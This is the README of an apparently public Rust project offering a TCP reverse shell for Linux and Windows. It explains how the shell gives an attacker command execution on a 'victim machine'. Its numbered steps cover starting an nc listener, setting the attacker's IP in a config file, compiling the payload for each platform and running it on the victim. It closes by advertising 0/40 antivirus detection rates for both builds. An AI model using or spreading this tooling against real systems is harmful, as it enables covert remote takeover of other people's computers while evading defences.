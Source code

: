 # RCO: TCP Reverse Shell

## What it is

RCO's TCP reverse shell is a no-frills [reverse shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/). This means it allows you to run Terminal (Linux)
or Command Prompt (Windows) commands _on the victim machine_ from the attacking machine. Getting a remote shell on a
victim machine usually allows much more control over the victim than other attacks. 

## How it works

Both RCO's Linux and Windows TCP reverse shells work by establishing a [TCP session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine
to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process is spun up with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)),
[standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that
input commands and output results are read from and written to (respectively) a TCP stream.

## Using it

1. Start a listener on the attacking machine
    ```commandline
    nc -nlvp 4444
    ```

2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match your attacking machine and listener, respectively

3. Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run

![tcp_reverse_shell_linux](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)

![tcp_reverse_shell_windows](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/d185d1b1ba09f1a9133b72cb1bb12f177b32f3e65962baf7789b03c968ec8e47)

![image](https://user-images.githubusercontent.com/14863147/151023219-84d7ab95-002e-4d20-89c7-264894d72683.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/e9ffcf8fffd390b68a4cbc9d506571f0618e473732015be748e1960300bc6a85)

![image](https://user-images.githubusercontent.com/14863147/151023325-d917df57-18ce-4e99-b059-968a479b65ce.png)
